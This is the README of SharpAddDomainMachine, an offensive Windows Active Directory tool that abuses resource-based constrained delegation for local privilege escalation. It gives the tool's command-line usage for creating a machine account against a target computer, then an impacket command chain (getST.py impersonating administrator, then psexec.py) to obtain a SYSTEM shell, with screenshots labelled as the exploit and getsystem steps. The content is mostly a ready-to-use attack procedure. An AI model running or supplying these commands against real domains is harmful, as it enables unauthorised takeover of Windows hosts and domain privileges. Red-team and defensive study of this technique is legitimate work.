 # SharpAddDomainMachine
## Description
The same script as [SharpAllowedToAct](https://github.com/pkb1s/SharpAllowedToAct), but more usefully for local privilege escalation.

## Usage
```
SharpAddDomainMachine

SharpAddDomainMachine.exe domain=domain.com dc=192.168.1.1 tm=target_machine_name ma=machine_account mp=machine_pass

domain: Set the target domain.
dc:     Set the domain controller to use.
tm:     Set the name of the target computer you want to exploit. Need to have write access to the computer object.
ma:     Set the name of the new machine.(default:random)
mp:     Set the password for the new machine.(default:random)
```

After successful attack use impacket to get system:
```
getST.py -dc-ip dc_ip domain.com/ma:mp -spn cifs/tm.domain -impersonate administrator
export KRB5CCNAME=administrator.ccache
psexec.py domain/administrator@tm.domain -k -no-pass
```

exploit:
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20200330175454.png)

getsystem:
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20200330175524.png)